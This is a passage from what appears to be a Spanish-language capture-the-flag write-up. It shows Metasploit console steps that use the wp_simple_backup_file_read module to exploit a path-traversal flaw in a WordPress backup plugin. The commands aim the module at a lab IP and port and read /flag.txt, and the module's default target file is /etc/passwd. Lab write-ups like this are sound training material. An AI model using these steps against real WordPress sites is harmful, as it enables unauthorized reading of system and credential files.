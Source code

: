 usamos ese exploit y revisamos las opciones
~~~
msf6 > use 0
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > show options

Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      6                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /etc/passwd      yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

~~~

Como ya hemos visto tenemos que configurar `RHOST`y por supuesto el `RPORT`, pero un detalle en esta configuracion es FILEPATH, en esta opcion es que tenemos que colocar la ruta de lo que querramos obtener, en este caso lo tenemos que cambiar por `/flag.txt
~~~
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RHOSTS 188.166.148.4
RHOSTS => 188.166.148.4

msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set rport 32497
rport => 32497

msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set FILEPATH /flag.txt
FILEPATH => /flag.txt
~~~

y vemos entonces que la configuracion queda asi
~~~
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > show options

Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      6                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /flag.txt        yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     188.166.148.4    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      32497            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host
~~~
